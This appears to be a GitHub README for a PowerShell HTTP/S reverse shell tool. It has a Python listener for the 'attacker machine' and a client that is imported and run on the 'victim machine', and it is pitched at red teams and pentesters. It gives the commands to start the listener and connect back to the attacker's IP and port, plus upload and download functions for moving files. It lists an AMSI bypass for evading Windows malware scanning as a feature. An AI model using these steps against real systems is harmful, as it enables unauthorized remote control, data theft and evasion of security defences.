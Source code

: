 # Powershell HTTP/S Reverse Shell
HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol using "Invoke-webrev.ps1" as client and "server.py" as server.

##  server.py - server

![Alt text](images/revshell.jpg "Server")

On the attacker machine:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On the victim machine:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

# Features
    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass

# Future features
    - Autocomplete
    - Multiple sessions
    
